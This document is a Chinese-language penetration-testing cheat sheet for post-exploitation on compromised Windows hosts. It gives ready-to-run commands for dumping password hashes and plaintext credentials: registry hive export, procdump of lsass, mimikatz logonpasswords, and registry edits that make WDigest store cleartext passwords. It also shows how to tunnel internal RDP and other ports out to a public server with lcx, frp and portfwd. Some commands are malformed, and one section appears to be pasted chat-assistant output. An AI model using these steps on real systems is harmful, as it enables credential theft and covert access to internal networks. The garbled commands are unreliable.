








### 利用wce获取hash

- `getshell`以后上传`wce.exe`


- 上传`exe`上线`cs`




****

### 使用QuarksPWDump获取hash

- 执行命令

```cmd
QuarksPwDump.exe -dhl
```



****

### 常规免杀获取hash

#### 使用`注册表`导出hash,本地破解

- 执行命令

```cmd
reg save HKLM\SYSTEM sys.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\security security.hiv
```

****

- 执行`命令`(这里由于靶机没有安装net对应版本环境所以没有成功!)

```cmd
Secretsdump.exe -sam sam.hiv -security.hiv -system sys.hiv LOCAL
```


****

#### 导出sam文件

- 适用于`域控`数量很大的情况

```cmd
shadow copy
```

****

#### 其它方式

```cmd
procdump+mimikatz
Powershell+mimikatz
Powershell+getpasshash
....
```


```cmd
# windows 2008 获取明文密码
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >>log.txt

# windows 2012 获取明文密码
# 1.修改注册表
reg add hkey_local_machine\system\currentcontrolset\control\securityproviders\wdigest\ /v uselogoncredential /t reg_dword /d 1 /f
# 2.锁屏或注销,让用户重新登录
# 3.procdump获取内存中的密码信息,将lsass.exe下载到本地
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
# 使用mimikatz读取密码信息
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >>log.txt

# windows 2016 获取明文密码
# 修改注册表开启UseLogonCredential,通过修改注册表让 Wdigest Auth 保存明文密码
reg_add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders|WDigest /v UseLogonCredential /t 
REG_DWORD /d 1 /f
# 锁屏...
# 获取明文密码
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >>log.txt
```

****

### 内网转发

- 使用一些技术,通过`中间服务器进行中转`,将内部的`端口映射`到公网ip上,或者将`内部端口转发`到外部服务器,供外网用户访问
- 内网转发的三种方式
  - 端口转发:用于目标机器对`某一端口的访问`进行`限制`,可以将本机的端口或者本机可以访问到的任意主机的`端口转发`到任意一台需要访问的公网ip上
  - 端口映射:将一个`内网`无法访问的端口`映射`到`公网`的某个端口,进行攻击
  - 代理转发:主要用于在目标机器上`做跳板`,进而对内网进行攻击

****

#### 端口转发

- 原理:将一个`端口`转发到任意一台可以访问的到的`公网ip`上
- 端口转发工具`lcx`:基于`socket`套接字实现的端口转发工具,有Windows和Linux两个版本,Linux版本为`porttmap`

```cmd
#转发端口
lcx.exe -slave 公网ip 端口 内网ip 端口
#监听端口
lcx.exe -listen 转发端口 本机未被占用端口
#映射端口
lcx.exe -tran 映射端口号 目标ip 目标端口
```

****

##### 本地端口映射

- 如果目标服务器由于防火墙限制,部分端口的`数据无法通过`防火墙,可以将目标服务器`相应的端口的数据`传到防火墙`允许的其它端口`

```cmd
#映射端口
lcx.exe -tran 映射端口号 目标ip 目标端口
```

- 例如:
  - `3389`端口流量无法通过防火墙,那么可以将改目标主机的端口`3389`端口流量转发到其它允许的端口号上如`6666`端口
  - 远程桌面连接 `目标主机ip:6666`

****

##### 远程端口转发

- 访问规则:攻击者可以访问web服务器,web服务器可以访问内网的服务器,攻击者不可以访问内网服务器
- 假设拿到了一个web服务器的权限,它可以访问内网,现在要`通过web服务器访问到内网中的主机资源`,进一步渗透,这时需要`web服务器`当作中间的`跳板`,也就是`代理的作用`让攻击者访问到内网的主机

****

### lcx基本使用

#### 实验一

- 环境:`80`端口不对外开放,但是`8080`端口对外开放且未被占用

- 目前8080端口未被占用

  

```cmd
lcx.exe -tran 8080 127.0.0.1 80
```




- 现在可以正常访问了

****

#### 实验二

```cmd
# 外网服务器开启监听
lcx.exe -listen 4444 12345
```


```cmd
# 将被控主机端口转发到外网服务器
lcx.exe -slave 公网ip 端口 被控服务器ip 端口
lcx.exe -slave 192.168.71.54 4444 127.0.0.1 3389
```



```cmd
# 在外网服务器连接本地12345端口
127.0.0.1:12345
```



****

### frp的基本使用

- 服务器修改`frps.ini`文件

```cmd
[common]
bind_port = 7000	#frp服务器监听端口
dashboard_port=7500	#web后台监听端口
dashboard_user=admin	#web后台用户名和密码
adshboard_pwd=admin	
token=123456	#用于客户端和服务端连接的口令
```

- 服务器运行


- 客户端设置

```cmd
[common]
server_addr = 8.137.60.154	#服务器ip
server_port = 7000	#服务器端口
token=123456
[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 3389	#本地端口
remote_port = 7001	#规则开放的端口
```





#### 示例

要将 Windows 客户端的 80 端口通过 Frp（Fast Reverse Proxy）转发到服务器的端口上，首先需要确保客户端和服务器的配置正确，然后启动相应的服务。你已经提供了客户端和服务器的配置，下面是详细步骤：

#### 客户端配置

客户端配置需要将本地的 80 端口转发到服务器的 9001 端口。

```
ini复制代码[common]
server_addr = 8.137.60.154  # 服务器 IP
server_port = 9000  # 服务器端口
token = 123456

[ssh]
type = tcp
local_ip = 127.0.0.1  # 本地 IP
local_port = 80  # 本地端口
remote_port = 9001  # 服务器上的端口
```

#### 服务端配置

服务器配置需要监听端口 9000，同时开放一个控制面板端口 9500。

```
ini复制代码[common]
bind_port = 9000  # 客户端与服务器之间的连接端口
dashboard_port = 9500  # 控制面板端口
dashboard_user = admin  # 控制面板用户名
dashboard_pwd = admin  # 控制面板密码
token = 123456  # 与客户端一致的 token
```

#### 启动 Frp 服务

1. **服务端（Linux）**: 在服务端，启动 Frp 服务端进程：

   ```
   bash
   
   
   复制代码
   ./frps -c frps.ini
   ```

   其中，`frps.ini` 是服务端的配置文件。

2. **客户端（Windows）**: 在 Windows 客户端上，启动 Frp 客户端进程：

   ```
   bash
   
   
   复制代码
   frpc.exe -c frpc.ini
   ```

   其中，`frpc.ini` 是客户端的配置文件。

#### 检查和验证

1. **访问控制面板**： 在浏览器中访问服务器的控制面板，检查端口转发是否成功：

   ```
   arduino
   
   
   复制代码
   http://8.137.60.154:9500
   ```

   输入用户名 `admin` 和密码 `admin`，你应该能够查看 Frp 的状态和连接信息。

2. **验证端口转发**： 在服务器上，使用浏览器访问 `http://8.137.60.154:9001`，如果设置正确，应该会访问到 Windows 客户端的 80 端口，实际上是你本地的 Web 服务。

#### 注意事项：

- 确保防火墙允许 9000、9001 和 9500 端口的流量。
- 如果是 Windows 客户端，确保 80 端口没有被其他程序占用，或者你可以通过修改 `local_port` 来选择其他端口。
- 如果在 Windows 上运行 Frp 客户端，可能需要使用管理员权限启动 `frpc.exe`。

****

### portfwd的基本使用

- add/delete

```CMD
portfwd add -l 6666 -p 3389 -r 192.168.71.54
```


- 列出

```cmd
portfwd list
```


- 移除本地所有端口

```cmd
portfwd flush
```

- 连接